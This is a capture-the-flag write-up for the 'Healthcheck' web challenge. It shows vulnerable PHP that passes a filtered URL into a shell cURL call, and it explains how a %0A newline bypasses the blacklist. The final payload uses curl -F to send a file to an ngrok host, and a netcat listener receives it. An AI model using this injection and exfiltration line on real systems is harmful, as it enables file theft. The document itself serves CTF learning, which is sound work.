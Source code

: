 # Healthcheck (Web)

> I left my hopes_and_dreams on the server. can you help fetch it for me?
> 
- `index.php` – Source Code

# Solution

### Examining the Website

In this challenge, we’re given an input box where we can enter a URL through a POST request and check its response status code.

![image1](https://github.com/user-attachments/assets/0ab56dd9-26f3-4bef-be47-099f16bcecf4)

Examining the source code, we see that our input is first checked for any blacklisted characters, in which it will remove it. Afterwards, the sanitized URL is put through an explicit cURL command. From here, we can attempt to break out of the cURL command and run our own command to exfiltrate the file “hopes_and_dreams”, as mentioned in the challenge description.

```php
<?php
if ($_SERVER["REQUEST_METHOD"] == "POST" && isset($_POST["url"])) {
    $url = $_POST["url"];

    $blacklist = [PHP_EOL,'$',';','&','#','`','|','*','?','~','<','>','^','<','>','(', ')', '[', ']', '{', '}', '\\'];

    $sanitized_url = str_replace($blacklist, '', $url);

    $command = "curl -s -D - -o /dev/null " . $sanitized_url . " | grep -oP '^HTTP.+[0-9]{3}'";

    $output = shell_exec($command);
    if ($output) {
        $response_message .= "<p><strong>Response Code:</strong> " . htmlspecialchars($output) . "</p>";
    }
}
?>
```

### Exfiltrating the File

In order to do this, we’ll set up a ngrok server and forward it to our netcat listener on port 80.W

![image2](https://github.com/user-attachments/assets/d0d19b46-ebbd-4c91-a644-dd8de5a15cad)

> %0A is used to start a new line while bypassing blacklisted character restrictions, and -F is used to specify the file we want to exfiltrate.
> 

Using Burp Suite to forward our request, we receive the file back on our netcat listener.And here, we obtain the flag:

![image3](https://github.com/user-attachments/assets/2715dfb3-66b3-4ce5-b07e-1e8f13e6765c)

```php
sudo nc -nvlp 80
```

![image4](https://github.com/user-attachments/assets/aefc158a-c3bf-4180-89ba-5308c3f7b381)

And here, we obtain the flag:

```
umcs{n1c3_j0b_ste4l1ng_myh0p3_4nd_dr3ams}
```

# Conclusion
This will be the final payload for the URL:

```php
url=%0Acurl -F "file=@hopes_and_dreams" https://376f-211-24-127-165.ngrok-free.app
```

This challenge involves a response code checking website that sends user input through a cURL command. By escaping the cURL command using a URL encoded new line, %0A, we can solve this challenge by exfiltrating the file through the use of a crafted request and a ngrok server. The flag is obtained when the request is forwarded to our netcat listener.
